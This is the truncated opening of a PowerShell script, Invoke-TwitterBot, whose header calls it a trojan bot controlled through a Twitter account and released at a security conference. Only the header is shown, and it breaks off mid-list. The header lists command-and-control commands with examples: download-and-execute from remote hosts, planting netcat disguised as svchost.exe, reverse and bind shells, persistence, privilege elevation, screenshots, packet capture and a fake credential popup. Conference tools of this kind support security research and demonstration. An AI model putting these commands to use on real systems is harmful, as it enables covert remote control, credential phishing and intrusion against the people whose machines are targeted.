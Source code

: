 Function Invoke-TwitterBot {
<#
.SYNOPSIS

    Invoke-TwitterBot

    Author: Chris Campbell (@obscuresec)
    License: BSD 3-Clause

.DESCRIPTION

    A trojan bot controlled by a twitter account that was released at Shmoocon IX
    
.EXAMPLE

    PS C:\> Invoke-TwitterBot -Verbose
   
.LINK

    https://github.com/obscuresec/shmoocon/blob/master/Invoke-TwitterBot
    http://www.obscuresec.com/


.NOTE

    To debug or test, run with the '-Verbose' command
    
    Commands:
        !quit 
            Ex: !quit
        !change
            Ex: !change|newevilPSbot 
        !speak 
            Ex: !speak|You have been hacked!
        !run 
            Ex: !run|net localgroup adminstrators > c:\windows\temp\ad.txt
        !downexec 
            Ex: !downexec|http://pastebinlikesite.com/moreevilpowershellscript.txt
        !download 
            Ex: !download|http://tools.hackarmoury.com/general_tools/nc/nc.exe|c:\windows\temp\svchost.exe
        !rickroll 
            Ex: !rickroll|http://www.youtube.com/watch?v=dQw4w9WgXcQ
        !shell 
            Ex: !shell|10.0.0.23|443
        !sleep 
            Ex: !sleep|9999
        !thunderstruck 
            Ex: !thunderstruck|http://www.youtube.com/watch?v=v2AC41dglnM
        !eicar 
            Ex: !eicar
        !screenshot 
            Ex: !screenshot|c:\temp\screen.png
        !popup 
            Ex: !popup|Administrative credentials are needed to install a pending update. You will be prompted shortly.|UPDATE PENDING
        !persist 
            Ex: !persist|http://pastebin.com/raw.php?i=Hqs2imY5
        !elevate 
            Ex: !elevate|http://blahblah.com/fjdads/script.raw
        !wallpaper 
            Ex: !wallpaper|http://itechbook.net/wp-content/uploads/6a00d8341c652b53ef017615ff8a0b970c-800wi.jpg/|c:\windows\temp\1.jpg
        !packetcapture 
            Ex: !packetcapture|10|c:\demo\|cap.log
        !getsystem 
            Ex: !getsystem
        !bindshell 
            Ex: !bindshell|8080
        !upload 